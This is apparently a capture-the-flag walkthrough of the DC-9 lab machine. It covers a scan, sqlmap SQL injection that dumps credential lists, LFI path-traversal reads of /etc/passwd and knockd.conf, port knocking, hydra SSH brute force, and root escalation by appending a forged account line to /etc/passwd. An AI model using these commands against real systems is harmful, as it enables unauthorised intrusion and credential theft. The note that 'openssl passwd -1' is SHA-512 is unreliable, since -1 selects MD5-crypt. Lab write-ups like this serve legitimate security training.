

# DC: 9

### Nmap Scan

```bash
PORT   STATE    SERVICE REASON              VERSION
22/tcp filtered ssh     port-unreach ttl 64

80/tcp open     http    syn-ack ttl 64      Apache httpd 2.4.38 ((Debian))
|_http-title: Example.com - Staff Details - Welcome
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

---

### Website


---

### Hidden Directory → Nothing Useful

```bash
/welcome.php
/results.php             
/logout.php              
/config.php              
/manage.php              
/session.php  
/search.php
/index.php
```

- The `search.php` looks interesting
- we can try injection attack on search parameter


---

### Successful SQL Injection

- There is a directory called → `search.php`

```sql
sqlmap -r request.txt  --dbs --batch
```


```sql
sqlmap -r request.txt  -D Staff -T Users --dump  

sqlmap -r request.txt -D users --dump
```


- All the username & password

```
RocksOff
BamBam01
UrAG0D!
4sfd87sfd1
Ilovepeepee
Hawaii-Five-0
B8m#48sd
Passw0rd
468sfdfsd2
3kfs86sfd
3248dsds7s
smellycats
yN72#dsd
ILoveRachel
YR3BVxxxw87
TC&TheBoyz
Pebbles
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```


```
barneyr
bettyr
chandlerb
fredf
janitor
janitor2
jerrym
joeyt
julied
marym
monicag
phoebeb
rachelg
rossg
scoots
tomc
wilmaf
```

---

### Crack password

```
username = admin
password = transorbital1
```


---

### Local File Inclusion (LFI)

- First login as admin
- `/manage.php`  → is Vulnerable to LFI

```bash
?file=../../../../../../etc/passwd 
```


```bash
[options]
        UseSyslog

[openSSH]
        sequence    = 7469,8475,9842
        seq_timeout = 25
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

[closeSSH]
        sequence    = 9842,8475,7469
        seq_timeout = 25
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn

```

---

### Port Knocking

- We know that nmap scan show SSH state is filtered
- so it indicate to **`Port Knocking`**
- we can use LFI payoad

```bash
?file=../../../../../../etc/knockd.conf
```


- Firstly we need to install tools

```bash
sudo apt install knockd
```

```bash
knock 10.176.154.203 7469 8475 9842
```

- We successfully hit the target



- Now SSH is open so we can try to brute-force
- We have list of users and passwords to brute-force
- Here we use hydra to brute-force to SSH

```bash
hydra -L users.txt -P passwd.txt -I 10.176.154.203 ssh
```

- **OUTPUT:**

```
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

---

### SSH Login

```bash
ssh chandlerb@10.176.154.203   
```


- user → chandlerb is not so useful
- Try another users
- user `janitor` has list of passwords for other users


---

### Privilege Escalation

- Save this password and try another brute-force

```bash
hydra -L user.txt -P pass.txt -t 4 10.176.154.203 ssh  
```


- login with user **`fredf`**
- And user **`fredf`**  can run →  `/opt/devstuff/dist/test/test` as root


- this test binary file can read from one file and append to another.


---

### **Root Privilege**

- First we gonna create new user with root privilege
- We use openssl passwd method
    - `openssl passwd` — hash a password
    - `1` — use **SHA-512-based crypt** algorithm (modern and secure)
    - `salt ironman`  — use `"salt"` as the salt
    - `iloveyou3000` — the actual password to hash

> **NOTE: Make sure you are in `/tmp` directory**
> 

```bash
openssl passwd -1 -salt ironman iloveyou3000
```


- Then we need to create new user that hash a root privilege.

```bash
## Change the username and hash according to your payload  
ironman:$1$ironman$PGr64JjNO62RHP5ezmgVq1:0:0:root:/root:/bin/bash
```

- We are ready to go
- Send this new user to payload `/etc/passwd`

```bash
sudo /opt/devstuff/dist/test/test payload.txt /etc/passwd
```

- check the payload is appended to passwd file

```bash
su ironman
```

